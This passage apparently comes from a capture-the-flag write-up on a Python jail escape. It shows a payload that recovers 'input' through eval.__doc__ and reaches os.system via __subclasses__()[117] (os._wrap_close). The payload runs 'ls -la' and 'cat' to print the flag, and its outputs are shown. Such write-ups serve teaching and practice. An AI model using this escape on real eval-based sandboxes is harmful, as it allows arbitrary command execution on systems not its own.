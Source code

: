 We need `os._wrap_close` to execute `system` function

```python
>>> a = print(eval(eval("inp"+eval.__doc__[3+1]+"t()")))
"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["system"]("ls -la")
total 40
drwxr-xr-x. 2 root root   131 Sep  3 18:27 .
drwxr-xr-x. 3 root root    17 Jul 22 18:42 ..
-rw-r--r--. 1 root root   220 Apr  4  2018 .bash_logout
-rw-r--r--. 1 root root  3771 Apr  4  2018 .bashrc
-rw-r--r--. 1 root root   807 Apr  4  2018 .profile
-rw-r--r--. 1 root root    29 Aug 29 15:20 LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt
-rwxr-xr-x. 1 root root  1328 Sep  3 18:27 pyjail.py
-rwxr-xr-x. 1 root root 18744 Jul 22 18:50 ynetd
```

Let's read `LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt`:

```python
>>> a = print(eval(eval("inp"+eval.__doc__[3+1]+"t()")))
"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["system"]("cat LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt")
ALLES{th1s_w4s_a_r34l_3sc4pe}
```

**Flag:** `ALLES{th1s_w4s_a_r34l_3sc4pe}`

As simple as that x)
